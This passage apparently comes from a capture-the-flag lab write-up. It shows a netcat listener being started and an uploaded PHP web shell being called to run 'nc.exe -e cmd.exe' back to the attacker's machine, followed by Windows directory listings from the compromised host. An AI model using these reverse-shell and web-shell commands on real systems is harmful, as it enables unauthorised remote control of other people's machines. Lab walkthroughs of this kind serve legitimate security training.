 We have a simple bind shell!

### Getting complete control (RCE)
---

Let's now spawn a reverse shell in a terminal, starting a listener on __port 443__ with:

```console
$ nc -lvnp 443
```
Parameters explanation:

- _l_: Listen for connections.
- _v_: Set verbosity level (can be used several times).
- _n_: Do not resolve hostnames via DNS.
- _p_: Specify source port to use.

Returning to the website, we will use our netcat binary file to gain a reverse shell. Let's navigate the following URL:

`http://10.10.10.29/wordpress/wp-content/Uploads/backdoor.php?cmd=.\nc.exe%20-e%20cmd.exe%20<YourIP>%20443`{: .filepath}

We are in.

![Desktop View](/assets/img/Shield/nc.png){: }

Inspecting the `User`{: .filepath} directory, we can see the user `sandra`, and we don't have access to this account. 

```console
C:\inetpub\wwwroot\wordpress\wp-content\Uploads>cd /Users
cd /Users

C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is DA1D-61AB

 Directory of C:\Users

02/10/2020  02:46 PM    <DIR>          .
02/10/2020  02:46 PM    <DIR>          ..
02/07/2020  04:43 AM    <DIR>          Administrator
11/20/2016  06:24 PM    <DIR>          Public
02/13/2020  10:50 AM    <DIR>          sandra
               0 File(s)              0 bytes
               5 Dir(s)  27,563,810,816 bytes free

C:\Users>cd sandra
cd sandra
Access is denied.

C:\Users>
```
